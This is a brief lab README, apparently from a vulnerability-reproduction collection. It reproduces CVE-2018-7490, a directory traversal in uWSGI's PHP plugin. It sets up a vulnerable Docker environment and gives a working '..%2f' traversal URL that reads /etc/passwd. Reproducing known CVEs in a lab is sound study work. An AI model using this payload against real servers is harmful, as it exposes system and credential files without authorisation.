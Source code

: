 # uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

uWSGI is a web application server that implements protocols such as WSGI, uwsgi, and http, and supports running various languages through plugins.

The PHP plug-in before uWSGI 2.0.17 does not correctly handle the `DOCUMENT_ROOT` check, which allows users to read or run files outside the `DOCUMENT_ROOT` directory via `..%2f`.

## vulnerability environment

Run the vulnerable uWSGI server:

```
Docker-compose up -d
```

After the run is complete, visit `http://your-ip:8080/` to see the phpinfo information, indicating that the uwsgi-php server has run successfully.

## Vulnerability recurrence

Access `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd` to successfully read the file:

![](1.png)
